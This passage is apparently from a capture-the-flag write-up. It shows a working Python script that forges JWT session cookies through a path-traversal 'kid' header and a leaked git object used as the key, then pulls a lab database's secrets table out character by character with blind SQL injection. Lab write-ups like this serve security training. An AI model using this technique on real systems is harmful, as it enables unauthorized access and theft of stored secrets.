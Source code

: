 ```python
import requests
import json
import jwt
import string

s = requests.Session()
s.keep_alive = False
h = {"Accept":"*/*","Accept-Encoding":"gzip, deflate","User-Agent":"Mozilla/5.0"}
url2 = "https://a269e18a-bb48-4fc7-bf26-0202b7876fb6.idocker.vuln.land/admin.php"
obj = ".git/objects/b0/e27f6adff54c677d31825edcd75bb6d0e8763e"
with open("e27f6adff54c677d31825edcd75bb6d0e8763e","rb") as f:
   content = f.read()

def q(url):
 chrs = [w for w in string.printable[:-5]]
 flag = f""
 for l in range(1,255):
   for c in chrs:
     token = jwt.encode({"sub":f"admin' AND (SELECT substr(value,{l},1)='{c}' FROM secrets WHERE secrets.id=1) -- ", "name":"Broken", "admin":True}, key=content, algorithm="HS384", headers={"kid":f"../{obj}"})
     cookies = {"session":token}
     r = s.get(url,cookies=cookies)
     if("Edit post" in r.text):
       print(f"letter {l} is: ", c )
       flag += c
       break
   if l != len(flag):
     print("final result ",flag)
     break
   print("current result:",flag)

```
I modified the script with some "better handling"...<br>
The result was: <code>8ab261ed1a4f2cb73d091920d27ebc6b54b5ea474ba5fafa99a42ed35668</code><br>
Unfortunately that wasn't the flag - the system didn't accept it, so I kept going on for the first ~10 ids.

And it seems I only got values for first 5, though I did check for key values as well so this were the results:

<ul>
<li>id 1 key: secret-key | value: 8ab261ed1a4f2cb73d091920d27ebc6b54b5ea474ba5fafa99a42ed35668</li>

<li>id 2 key: random seed | value: 1337</li>

<li>id 3 key: fubar | value: null</li>

<li>id 4 key: nonce | value : totally unique</li>

<li>id 5 key:important link value: rickroll youtube link was here heh</li>
</ul>

Before enumerating all values in secrets I quickly wanted to make sure that flag is not the admin's password.<br>
